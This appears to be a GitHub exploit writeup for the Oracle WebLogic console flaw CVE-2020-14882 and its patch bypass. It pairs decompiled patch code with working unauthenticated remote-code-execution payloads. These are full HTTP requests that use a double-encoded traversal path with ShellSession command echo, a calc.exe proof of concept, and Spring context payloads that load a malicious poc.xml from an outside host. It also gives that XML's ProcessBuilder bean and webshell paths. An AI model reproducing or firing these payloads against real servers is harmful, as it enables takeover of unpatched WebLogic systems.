# CVE-2020–14882 Weblogic Unauthorized bypass RCE

## bypass patch with CVE-2020–14882

`private static final String[] IllegalUrl = new String[]{";", "%252E%252E", "%2E%2E", "..", "%3C", "%3E", "<", ">"};`


#### list

```
%252E%252E
%2E%2E
..
%3E
%3C
;
<
>
```

#### lower

```
>>> "%252E%252E%252F".lower()
'%252e%252e%252f'
```
`%252E%252E%252F` to `%252e%252e%252f`

`/console/css/%252e%252e%252fconsole.portal`


```
╰─$ grep -rn 'IllegalUrl' *
console.jar/com/bea/console/utils/MBeanUtilsInitSingleFileServlet.java:19:   private static final String[] IllegalUrl = new String[]{";", "%252E%252E", "%2E%2E", "..", "%3C", "%3E", "<", ">"};
console.jar/com/bea/console/utils/MBeanUtilsInitSingleFileServlet.java:40:         for(int i = 0; i < IllegalUrl.length; ++i) {
console.jar/com/bea/console/utils/MBeanUtilsInitSingleFileServlet.java:41:            if (url.contains(IllegalUrl[i])) {
```

```
package com.bea.console.utils;

import com.bea.netuix.servlets.manager.SingleFileServlet;
import java.io.IOException;
import javax.servlet.ServletConfig;
import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import org.apache.commons.logging.Log;
import org.apache.commons.logging.LogFactory;

public class MBeanUtilsInitSingleFileServlet extends SingleFileServlet {
   private static final Log LOG = LogFactory.getLog(MBeanUtilsInitSingleFileServlet.class);
   private static final String WL_DISPATCH_POLICY = "wl-dispatch-policy";
   private static boolean hasInited = false;
   private static final long serialVersionUID = 1L;
   private static final String[] IllegalUrl = new String[]{";", "%252E%252E", "%2E%2E", "..", "%3C", "%3E", "<", ">"};

   public static void initMBean() {
      MBeanUtilsInitializer.initMBeanAsynchronously();
   }

   public void init(ServletConfig config) throws ServletException {
      ConsoleWorkManagerUtils.init(config.getInitParameter("wl-dispatch-policy"));
      super.init(config);
   }

   public void service(ServletRequest req, ServletResponse resp) throws ServletException, IOException {
      if (!hasInited) {
         initMBean();
         hasInited = true;
      }

      if (req instanceof HttpServletRequest) {
         HttpServletRequest httpServletRequest = (HttpServletRequest)req;
         String url = httpServletRequest.getRequestURI();

         for(int i = 0; i < IllegalUrl.length; ++i) {
            if (url.contains(IllegalUrl[i])) {
               if (resp instanceof HttpServletResponse) {
                  LOG.error("Invalid request URL detected. ");
                  HttpServletResponse httpServletResponse = (HttpServletResponse)resp;
                  httpServletResponse.sendError(404);
               }

               return;
            }
         }
      }

      try {
         super.service(req, resp);
      } catch (IllegalStateException var7) {
         if (LOG.isDebugEnabled()) {
            LOG.debug(var7);
         }
      } catch (IOException var8) {
         if (LOG.isDebugEnabled()) {
            LOG.debug(var8);
         }
      }

   }
}

```


## CVE-2020-14750 patch.png


`consoleapp/webapp/WEB-INF/lib/console.jar/com/bea/console/utils/MBeanUtilsInitSingleFileServlet.java`

```
         for(int i = 0; i < IllegalUrl.length; ++i) {
            if (url.contains(IllegalUrl[i])) {
               if (resp instanceof HttpServletResponse) {
                  LOG.error("Invalid request URL detected. ");
                  HttpServletResponse httpServletResponse = (HttpServletResponse)resp;
                  httpServletResponse.sendError(404);
               }

               return;
            }
         }
```

##### ConsoleUtils.isUserAuthenticated(httpServletRequest)
```
      if (req instanceof HttpServletRequest) {
         HttpServletRequest httpServletRequest = (HttpServletRequest)req;
         String url = httpServletRequest.getRequestURI();
         if (!ConsoleUtils.isUserAuthenticated(httpServletRequest)) {
            throw new ServletException("User not authenticated.");
         }

         if (!this.isValidUrl(url, httpServletRequest)) {
            if (resp instanceof HttpServletResponse) {
               LOG.error("Invalid request URL detected.");
               HttpServletResponse httpServletResponse = (HttpServletResponse)resp;
               httpServletResponse.sendError(404);
            }

            return;
         }
      }
```

```
   private boolean isValidUrl(String url, HttpServletRequest req) {
      String consoleContextPath = ConsoleUtils.getConsoleContextPath();
      List portalList = ConsoleUtils.getConsolePortalList();
      Iterator var5 = portalList.iterator();

      String tmp;
      do {
         if (!var5.hasNext()) {
            return false;
         }

         String portal = (String)var5.next();
         tmp = "/" + consoleContextPath + portal;
      } while(!url.equals(tmp));

      return true;
   }
```
#### ConsoleUtils.getConsolePortalList

```
   public static List getConsolePortalList() {
      if (consolePortalList == null) {
         consolePortalList = new ArrayList();
         consolePortalList.add("/console.portal");
         consolePortalList.add("/consolejndi.portal");
         String validPortalNames = System.getProperty("weblogic.console.validPortalNames");
         if (!StringUtils.isEmptyString(validPortalNames)) {
            String[] vArray = validPortalNames.split(",");

            for(int i = 0; i < vArray.length; ++i) {
               consolePortalList.add(vArray[i]);
            }
         }
      }

      return consolePortalList;
   }
```


## Command Echo For Weblogic 12.2.1.4.0

#### e.g.

`cmd: chcp 65001&&whoami&&ipconfig`



#### Burpsuite

```
POST /console/css/%252e%252e%252fconsole.portal HTTP/1.1
Host: 172.16.242.134:7001
cmd: chcp 65001&&whoami&&ipconfig
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 1258

_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("weblogic.work.ExecuteThread executeThread = (weblogic.work.ExecuteThread) Thread.currentThread();
weblogic.work.WorkAdapter adapter = executeThread.getCurrentWork();
java.lang.reflect.Field field = adapter.getClass().getDeclaredField("connectionHandler");
field.setAccessible(true);
Object obj = field.get(adapter);
weblogic.servlet.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl) obj.getClass().getMethod("getServletRequest").invoke(obj);
String cmd = req.getHeader("cmd");
String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};
if (cmd != null) {
    String result = new java.util.Scanner(java.lang.Runtime.getRuntime().exec(cmds).getInputStream()).useDelimiter("\\A").next();
    weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.ServletResponseImpl) req.getClass().getMethod("getResponse").invoke(req);
    res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));
    res.getServletOutputStream().flush();
    res.getWriter().write("");
}executeThread.interrupt();
");
```

#### 回显参考链接：

```
https://xz.aliyun.com/t/5299
https://github.com/feihong-cs/Java-Rce-Echo/blob/master/weblogic/code/WeblogicEcho.jsp
https://mp.weixin.qq.com/s/u8cZEcku-uIbGAVAcos5Tw

```
#### 回显payload
```
weblogic.work.ExecuteThread executeThread = (weblogic.work.ExecuteThread) Thread.currentThread();
weblogic.work.WorkAdapter adapter = executeThread.getCurrentWork();
java.lang.reflect.Field field = adapter.getClass().getDeclaredField("connectionHandler");
field.setAccessible(true);
Object obj = field.get(adapter);
weblogic.servlet.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl) obj.getClass().getMethod("getServletRequest").invoke(obj);
String cmd = req.getHeader("cmd");
String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};
if (cmd != null) {
    String result = new java.util.Scanner(java.lang.Runtime.getRuntime().exec(cmds).getInputStream()).useDelimiter("\\A").next();
    weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.ServletResponseImpl) req.getClass().getMethod("getResponse").invoke(req);
    res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));
    res.getServletOutputStream().flush();
    res.getWriter().write("");
}
executeThread.interrupt();
```






## ShellSession

`coherence-rest.jar#com.tangosol.coherence.mvel2.sh.ShellSession`

#### Payload

```
POST /console/css/%252e%252e%252fconsole.portal HTTP/1.1
Host: 172.16.242.134:7001
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 117

_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('calc.exe');");
```


#### Getshell

`ROOT_PATH= C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain\`

`Shell_path= ../../../wlserver/server/lib/consoleapp/webapp/images/xxx.jsp`





[](https://asciinema.org/a/MwvRG8zcmtmWspFHlWExVm05S)


## FileSystemXmlApplicationContext

`com.bea.core.repackaged.springframework.spring.jar#com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`

```
POST /console/css/%252e%252e%252fconsole.portal HTTP/1.1
Host: 172.16.242.134:7001
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 155

_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://172.16.242.1:8989/poc.xml")
```


#### poc.xml

`python -m SimpleHTTPServer`

`python -m pyftpdlib`

```
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>cmd</value>
        <value>/c</value>
        <value><![CDATA[calc]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```
## ClassPathXmlApplicationContext

`com.bea.core.repackaged.springframework.spring.jar#com.bea.core.repackaged.springframework.context.support.ClassPathXmlApplicationContext`

```
POST /console/images/%252E%252E%252Fconsole.portal HTTP/1.1
Host: 192.168.28.128:7001
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 161

_nfpb=true&_pageLabel=HomePage1&handle=com.bea.core.repackaged.springframework.context.support.ClassPathXmlApplicationContext("http://172.16.242.1:8989/poc.xml")
```


## patch for CVE-2020–14882

#### no patch 

`C:\Oracle\Middleware\Oracle_Home\wlserver\server\lib\consoleapp\webapp\WEB-INF\lib\console.jar`

`com.bea.console.utils.MBeanUtilsInitSingleFileServlet`





## patch bypass notice for CVE-2020-14882

`[Vulnerability warning] WebLogic console remote execution vulnerability (CVE-2020-14882) patch bypasses 0day`

https://help.aliyun.com/noticelist/articleid/1060738870.html

## vuln version

```
WebLogic 10.3.6.0.0

WebLogic 12.1.3.0.0

WebLogic 12.2.1.3.0

WebLogic 12.2.1.4.0

WebLogic 14.1.1.0.0
```

## 参考链接

https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf

https://www.oracle.com/security-alerts/cpuoct2020.html
